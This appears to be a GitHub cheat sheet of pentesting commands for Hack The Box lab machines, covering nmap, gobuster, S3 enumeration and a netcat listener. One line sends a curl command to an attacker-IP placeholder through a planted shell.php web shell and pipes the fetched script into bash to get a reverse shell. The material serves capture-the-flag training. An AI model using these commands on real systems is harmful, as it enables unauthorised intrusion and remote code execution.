 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```
